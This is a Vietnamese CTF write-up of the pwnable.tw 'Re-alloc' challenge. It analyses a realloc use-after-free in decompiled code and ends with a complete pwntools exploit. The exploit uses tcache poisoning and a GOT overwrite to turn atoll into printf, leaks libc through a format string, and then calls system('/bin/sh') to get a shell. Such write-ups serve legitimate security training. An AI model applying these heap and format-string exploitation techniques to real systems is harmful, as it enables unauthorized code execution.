 ```yaml
---
title:  "Pwnable.tw - Re-alloc"
date:   2025-03-25 10:00:00 +0700
header:
  teaser: "/assets/images/2025-03-25-pwntw-realloc/Screenshot 2025-03-25 172442.png"
tags:
  - pwnable.tw
  - elf
  - heap
  - use-after-free
  - tcache-poisoning
  - realloc
---
```


![Challenge description](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-25%20172442.png){:class="img-responsive"}

## Phân tích
### Tổng quan
Challenge cho ta một elf binary cùng với libc phiên bản 2.29. RELRO và PIE tắt.  
![Checksec](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120846.png){:class="img-responsive"}  
Chương trình có 4 chức năng:
1. Alloc 1 chunk có index, size và data được user chỉ định. Giá trị size phải nhỏ hơn 0x78 (Vừa với tcache).
```cpp
int allocate()
{
  _BYTE *v0; 
  unsigned __int64 v2; 
  unsigned __int64 size; 
  void *v4; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 || heap[v2] ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    printf("Size:");
    size = read_long();

    // tcache limit
    if ( size <= 0x78 ) { 
      v4 = realloc(0LL, size);

      // alloc thành công
      if ( v4 ) { 
        heap[v2] = v4;
        printf("Data:");
        v0 = (_BYTE *)(heap[v2] + read_input(heap[v2], (unsigned int)size));
        *v0 = 0;
      }
      else {
        LODWORD(v0) = puts("alloc error");
      }
    }
    else {
      LODWORD(v0) = puts("Too large!");
    }
  }
  return (int)v0;
}
```
2. Re-alloc 1 chunk đã được alloc trước đó với size và data mới.
```cpp
int reallocate() {
  unsigned __int64 v1; 
  unsigned __int64 size; 
  void *v3; 

  printf("Index:");
  v1 = read_long();
  if ( v1 > 1 || !heap[v1] )
    return puts("Invalid !");
  printf("Size:");
  size = read_long();
  if ( size > 0x78 )
    return puts("Too large!");
  v3 = realloc((void *)heap[v1], size);
  if ( !v3 )
    return puts("alloc error");
  heap[v1] = v3;
  printf("Data:");
  return read_input(heap[v1], (unsigned int)size);
}
```
3. Free 1 chunk có index được user chỉ định. Sau khi free có đặt lại pointer về null nên sẽ không có lỗi ở đây.
```cpp
int rfree() {
  void *v0; 
  unsigned __int64 v2; 

  printf("Index:");
  v2 = read_long();
  if ( v2 > 1 ) {
    LODWORD(v0) = puts("Invalid !");
  }
  else {
    realloc(*((void **)&heap + v2), 0LL);
    v0 = &heap;
    *((_QWORD *)&heap + v2) = 0LL;
  }
  return (int)v0;
}
```
4. Thoát chương trình.

Ngoài ra, chương trình chỉ cho phép 2 chunk tồn tại đồng thời (index là 0 hoặc 1), việc này được kiểm soát bởi global array **heap**.
### Hiểu về hàm realloc
Điều đáng chú ý ở challenge này là nó dùng hàm realloc để thực hiện cả 3 thao tác chính. Dựa theo [man page](https://man7.org/linux/man-pages/man3/realloc.3p.html) và [source code](https://elixir.bootlin.com/glibc/glibc-2.29/source/malloc/memusage.c#L379) của realloc:
1. realloc(NULL, size): giống như malloc.
2. realloc(ptr, size): dealloc (không phải free) chunk cũ và alloc 1 chunk mới với size mới với data giống với chunk cũ, độ dài của data phù hợp với chunk nhỏ hơn. Nếu size mới bằng size cũ thì realloc không làm gì cả.
3. realloc(ptr, 0): giống như free.

Dựa vào những điều trên, ta xác định được lỗi use-after-free ở chức năng thứ 2 của chương trình do không kiểm tra size được nhập bởi user.  
## Khai thác
Với hạn chế size của mọi chunk phải ở trong vùng tcache thì ý tưởng khai thác chính của ta sẽ là dùng kỹ thuật tcache-poisoning.  
Các bước khai thác:
1. Ghi đè got_atoll thành plt_printf (chọn atoll do ta có thể kiểm soát hoàn toàn tham số của nó).
2. Leak libc base bằng lỗi format-string vừa tạo ra.
3. Vẫn dùng lỗi format-string, ghi đè tất cả các giá trị trong mảng **heap** về null nhằm tránh lỗi khi alloc về sau.
4. Ghi đè got_atoll thành system, thao tác tương tự bước 1 (lưu ý printf trả về số kí tự được in thành công)
5. Lấy shell
```python
#!/usr/bin/python3
from pwn import *

context.binary = elf = ELF("./re-alloc_patched", checksec = False)
libc = ELF("./libc.so.6", checksec = False)

# con = process()
con = remote("chall.pwnable.tw", 10106)

def debug_from_here():
    gdb.attach(con, gdbscript = '''
        b*main+0x6f
        b*main+0x7b
        b*main+0x87
    ''')
    input()

def alloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"1")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    con.sendlineafter(b"Data:", data)

def realloc(idx, size, data):
    con.sendlineafter(b"Your choice: ", b"2")
    con.sendlineafter(b"Index:", idx)
    con.sendlineafter(b"Size:", size)
    if (size != b"0" and size != b"\0"):
        con.sendlineafter(b"Data:", data)
    
def free(idx):
    con.sendlineafter(b"Your choice: ", b"3")
    con.sendlineafter(b"Index:", idx)

### Stage 1: overwrite got_atoll -> plt_printf
alloc(b"0", f"{0x10}", b"abcd0")                # heap[0] = p1
realloc(b"0", b"0", "")                         # heap[0] = p1; tcache[0x20] = [p1]
realloc(b"0", f"{0x10}", p64(elf.got['atoll'])) # heap[0] = p1; tcache[0x20] = [p1 -> atoll_got -> ...]
alloc(b"1", f"{0x10}", b"abcd1")                # heap[0] = p1, heap[1] = p1; tcache[0x20] = [atoll_got -> ...]

realloc(b"1", f"{0x20}", b"abcd1")              # heap[0] = p1, heap[1] = p2; tcache[0x20] = [atoll_got -> ...]
free(b'1')                                      # heap[0] = p1, heap[1] = 0; tcache[0x20] = [atoll_got -> ...], tcache[0x30] = [p2]
alloc(b"1", f"{0x10}", p64(elf.plt['printf']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x20] = [...], tcache[0x30] = [p2]

### Stage 2: leak libc base
free(b"%7$p")
libc.address = int(con.recvline().strip(b"\n"), 16) - 0x1e5760
log.success(hex(libc.address))

### Stage 3: clear heap array
free(b"%9$n".ljust(8) + p64(elf.sym['heap']))
free(b"%9$n".ljust(8) + p64(elf.sym['heap'] + 8))

### Stage 4: overwrite got_atoll -> system
alloc(b"\0", f"%{0x2f}c", b"abcd0")                  # heap[0] = p1
realloc(b"\0", b"\0", b"")                           # heap[0] = p1; tcache[0x40] = [p1]
realloc(b"\0", f"%{0x2f}c", p64(elf.got['atoll']))   # heap[0] = p1; tcache[0x40] = [p1 -> atoll_got -> ...]
alloc(b"1\0", f"%{0x2f}c", b"abcd1")                 # heap[0] = p1, heap[1] = p1; tcache[0x40] = [atoll_got -> ...]

realloc(b"1\0", f"%{0x3f}c", b"abcd1")               # heap[0] = p1, heap[1] = p2; tcache[0x40] = [atoll_got -> ...]
free(b'1\0')                                         # heap[0] = p1, heap[1] = 0; tcache[0x40] = [atoll_got -> ...], tcache[0x50] = [p2]
alloc(b"1\0", f"%{0x2f}c", p64(libc.sym['system']))  # heap[0] = p1, heap[1] = atoll_got; tcache[0x40] = [...], tcache[0x50] = [p2]

### Stage 5: get shell
free(b"/bin/sh")

con.interactive()

```
![Solved](/assets/images/2025-03-25-pwntw-realloc/Screenshot%202025-03-26%20120324.png){:class="img-responsive"}